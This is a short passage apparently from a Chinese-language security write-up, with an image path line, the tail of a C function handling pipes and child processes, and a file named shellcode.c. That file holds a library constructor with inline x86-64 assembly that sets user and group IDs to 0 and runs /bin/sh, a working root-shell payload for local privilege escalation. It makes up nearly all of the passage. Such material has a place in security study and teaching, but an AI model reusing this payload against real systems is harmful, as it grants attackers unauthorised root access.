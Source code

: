 ```c
	close(des_p[1]);
	wait(0);
	wait(0);
}
```

shellcode.c
```c
static void __attribute__((constructor)) _init(void) {
  __asm __volatile__(
      "addq $64, %rsp;"
      // setuid(0);
      "movq $105, %rax;"
      "movq $0, %rdi;"
      "syscall;"


      // setgid(0);
      "movq $106, %rax;"
      "movq $0, %rdi;"
      "syscall;"


      // execve("/bin/sh");
      "movq $59, %rax;"
      "movq $0x0068732f6e69622f, %rdi;"
      "pushq %rdi;"
      "movq %rsp, %rdi;"
      "movq $0, %rdx;"
      "pushq %rdx;"
      "pushq %rdi;"
      "movq %rsp, %rsi;"
      "syscall;"


      // exit(0);
      "movq $60, %rax;"
      "movq $0, %rdi;"
      "syscall;"

);
}
```


# 0X06 解决方案
